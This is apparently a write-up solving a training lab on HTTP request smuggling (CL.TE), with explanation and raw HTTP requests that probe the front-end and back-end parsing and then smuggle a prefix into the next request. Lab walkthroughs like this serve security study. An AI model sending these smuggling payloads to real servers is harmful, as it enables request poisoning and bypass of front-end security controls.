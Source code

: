 # HTTP request smuggling, basic CL.TE vulnerability
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. \
The front-end server rejects requests that aren't using the GET or POST method.\
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Analysis
### Determinig what the front-end is using
If front-end uses `Content-Length` header it should wait for all the bytes defined in `Content-Length` header. In the example below, the response from the server (time-out) indicates that front-end must be using `Content-Length` header and back-end must be using `Transfer-Encoding` header. Last byte (`X`) was striped by front-end. Then the back-end tried to wait for the termination of the chunked request causing time-out which indicates that it is using `Transfer-Encoding` header. 
```
POST / HTTP/1.1
Host: 0ae4008c038733a4818bfc6b008000fb.web-security-academy.net
Cookie: session=QjDwerZivMfuqUNKOCyKs5bDPlaUt4Vx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X
```

|![](Images/image-9.png)|
|:--:| 
| *Time-out - Front-end is using Content Length header* |
| *Time-out - Back-end is using Transfer Encoding header* |


### Conmfirming that the back-end is using Transfer Encoding
In this case if back-end uses `Transfer-Encoding` header it should treat everything after `0` as new request.
```
POST / HTTP/1.1
Host: 0ae4008c038733a4818bfc6b008000fb.web-security-academy.net
Cookie: session=QjDwerZivMfuqUNKOCyKs5bDPlaUt4Vx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

|![](Images/image-10.png)|
|:--:| 
| *Unrecognized method XPOST - Back-end is using Transfer Encoding header* |

## Exploitation
Payload:
```
POST / HTTP/1.1
Host: 0a5700f504b0a82a838c425c00b800fe.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

The `Content-Length: 6` value:
```
0\r\n       +3
\r\n        +2
G           +1
```

|![](Images/image.png)|
|:--:| 
| *First request - poisoning* |
|![](Images/image-1.png)|
| *Second request - request was smuggled* |
|![](Images/image-2.png)|
| *Second request with visible signs "\r" and "\n"* |